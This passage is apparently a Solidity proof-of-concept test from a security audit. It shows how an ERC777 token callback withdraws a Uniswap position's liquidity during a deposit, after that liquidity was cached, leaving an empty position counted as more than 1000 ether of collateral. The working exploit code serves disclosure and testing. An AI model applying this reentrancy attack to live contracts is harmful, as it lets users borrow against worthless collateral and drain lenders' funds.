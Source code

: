             address[] memory assetAddresses = new address[](2);
            assetAddresses[0] = address(mockERC20.token777);
            assetAddresses[1] = address(nonfungiblePositionManager);
            uint256[] memory assetIds = new uint256[](2);
            assetIds[0] = 0;
            assetIds[1] = tokenId;
            uint256[] memory assetAmounts = new uint256[](2);
            assetAmounts[0] = 1; // no need to send more than 1 wei as the ERC777 only serves to trigger the callback
            assetAmounts[1] = 1;
            // Set approvals
            IERC721(address(nonfungiblePositionManager)).approve(address(proxyAccount), tokenId);
            mockERC20.token777.approve(address(proxyAccount), type(uint256).max);
    
            // Perform deposit. 
            // Deposit will perform two steps:
            // 1. processDeposit(): this step will handle the deposited assets and verify everything is correct. For uniswap positions, the liquidity in the position
            // will be stored in the `assetToLiquidity` mapping.
            // 2.Transferring the assets: after processing the assets, the actual asset transfers will take place. First, the ER777 colallateral will be transferred. 
            // This will trigger the callback in the accountOwnerContract (the account owner), which will withdraw all the uniswap position liquidity. Because the uniswap 
            // position liquidity has been cached in step 1 (processDeposit()), the protocol will still believe that the uniswap position has some liquidity, when in reality
            // all the liquidity from the position has been withdrawn in the ERC777 `tokensToSend()` callback. 
            proxyAccount.deposit(assetAddresses, assetIds, assetAmounts);
    
            //----------       FINAL ASSERTIONS       ----------//
            // Collateral value fetches the `assetToLiquidity` value cached prior to removing position liquidity. This does not reflect that the position is empty,
            // hence it is possible to borrow with an empty uniswap position.
            uint256 finalCollateralValue = proxyAccount.getCollateralValue();
    
            // Liquidity in the position is 0.
            (
                ,
                ,
                ,
                ,
                ,
                ,
                ,
                uint128 liquidity,
                ,
                ,
                ,
            ) = nonfungiblePositionManager.positions(tokenId); 
    
            console.log("Collateral value of account:", finalCollateralValue);
            console.log("Actual liquidity in position", liquidity);
    
            assertEq(liquidity, 0);
            assertGt(finalCollateralValue, 1000 ether); // Collateral value is greater than 1000
        } 
    